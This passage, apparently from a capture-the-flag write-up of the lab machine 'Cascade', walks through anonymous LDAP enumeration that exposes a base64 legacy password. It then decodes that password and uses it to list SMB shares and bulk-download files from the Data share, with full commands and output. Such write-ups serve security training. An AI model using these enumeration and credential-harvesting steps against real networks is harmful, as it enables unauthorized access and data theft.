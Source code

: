 ASREP-Roasting doesn't work, and brute forcing didn't work. In this case, we can take a look at LDAP and its output.

### LDAP Enum

We can run an anonymous `ldapsearch` on the machine, and find loads of output. While looking through the users' LDAP information, I came across this

```
$ ldapsearch -x -H ldap://10.129.178.248 -D '' -w '' -b "DC=cascade,DC=local" > ldap_enum
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
```

There was a `cascadceLegacyPwd` field, which is normally not present. Decoded, this gives `rY4n5eva`. Using these credentials, we can gain access to the SMB shares, but no shell yet.&#x20;

```
$ smbmap -H 10.129.178.248 -u r.thompson -p rY4n5eva                          
[+] IP: 10.129.178.248:445      Name: 10.129.178.248                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
```

### SMB Shares

We can enumerate the files within the SMB shares, and hopefully find some credentials. I downloaded all the files within the Data share.

```
$ smbclient -U r.thompson //10.129.178.248/Data
Password for [WORKGROUP\r.thompson]:
Try "help" to get a list of possible commands.
smb: \> mask ""
smb: \> prompt OFF
smb: \> recurse ON
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \Contractors\*
NT_STATUS_ACCESS_DENIED listing \Finance\*
NT_STATUS_ACCESS_DENIED listing \Production\*
NT_STATUS_ACCESS_DENIED listing \Temps\*
getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as IT/Email Archives/Meeting_Notes_June_2018.html (74.6 KiloBytes/sec) (average 74.6 KiloBytes/sec)
getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log (29.6 KiloBytes/sec) (average 49.1 KiloBytes/sec)
getting file \IT\Logs\DCs\dcdiag.log of size 5967 as IT/Logs/DCs/dcdiag.log (153.3 KiloBytes/sec) (average 83.9 KiloBytes/sec)
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as IT/Temp/s.smith/VNC Install.reg (81.8 KiloBytes/sec) (average 83.4 KiloBytes/sec)
```
